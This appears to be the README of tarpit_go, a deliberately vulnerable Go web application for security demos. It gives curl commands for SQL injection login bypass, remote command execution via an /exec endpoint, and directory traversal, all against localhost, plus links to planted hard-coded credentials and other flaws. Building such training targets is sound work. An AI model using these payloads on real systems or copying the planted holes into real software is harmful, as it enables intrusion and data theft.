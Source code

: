**Demo steps**
1. Start containers:
```
cd <tarpit_go>
docker-compose up
```
2. Visit http://localhost:3000/login to see the demo; (There are also curl commands version attached)
3. Tear down the environment:
```
control + C
docker-compose down
```

**curl version**
1. Sql injection demo: 
//password='12346" OR ""="'
```
curl -X POST -d "username=admin&password=12346%22+OR+%22%22%3D+%22" http://localhost:3000/login
```
2. Remote code execution:
```
curl -X POST -d "cmd=ls -a" http://localhost:3000/exec
```
3. Directory traversal demo: (login first)
```
curl -X GET http://localhost:3000/image/../demo/demo.go
```
4. Hard Coded credentials:

[https://github.com/AiolosLiu/tarpit_go/blob/master/auth.go#L19](https://github.com/AiolosLiu/tarpit_go/blob/master/auth.go#L19)

5. Sensitive data leak:

[https://github.com/AiolosLiu/tarpit_go/blob/master/auth.go#L26](https://github.com/AiolosLiu/tarpit_go/blob/master/auth.go#L26)

6. Insider attack:

[https://github.com/AiolosLiu/tarpit_go/blob/master/vulns.go#L73](https://github.com/AiolosLiu/tarpit_go/blob/master/vulns.go#L73)

7. Business logic flaw:

[https://github.com/AiolosLiu/tarpit_go/blob/master/workflow.go#L100](https://github.com/AiolosLiu/tarpit_go/blob/master/workflow.go#L100)
